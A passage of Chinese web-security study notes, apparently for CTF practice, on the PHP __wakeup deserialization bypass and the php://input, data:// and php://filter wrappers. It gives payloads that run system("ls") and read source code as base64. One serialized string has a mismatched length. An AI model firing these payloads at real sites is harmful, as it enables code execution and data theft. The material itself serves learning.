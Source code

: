 Student后面的3表示属性个数，如果在反序列化这个字符串时，这个数字大于类本身的属性个数，则不会执行__wakeup函数（比如这里改成5）

```php
class Student{
public $full_name = 'zhangsan';
public $score = 150;
public $grades = array();

function __wakeup() {
    echo "__wakeup is invoked";  // 不会执行
}

}

$s = new Student();
$stu = unserialize('O:7:"Student":5:{s:9:"full_name";s:8:"hellp";s:5:"score";i:150;s:6:"grades";a:0:{}}');
```

# PHP伪协议

## input协议

PHP伪协议中，在后面加上input之后，系统会执行POST上去的PHP代码。

在URL中添加`PHP://input`并模拟POST请求，在参数中可以直接植入php代码

```
POST /?param1=a&param2=PHP://input HTTP/1.1
Content-Type: application/x-www-form-urlencoded
.....

<?php system("ls"); ?>
```

## data协议

在URL中添加`data://text/plain,<?php%20system("ls");?>`

## filter 协议

格式为

```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```
输出的结果是base64编码的，可以使用浏览器控制台进行解码：
```
window.atob('PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7NzJiZDBjOTYtYWU1MC00YzI4LTg4MjEtZGI4NGI4OWM3YjU1fQo=')
```

# 文件包含
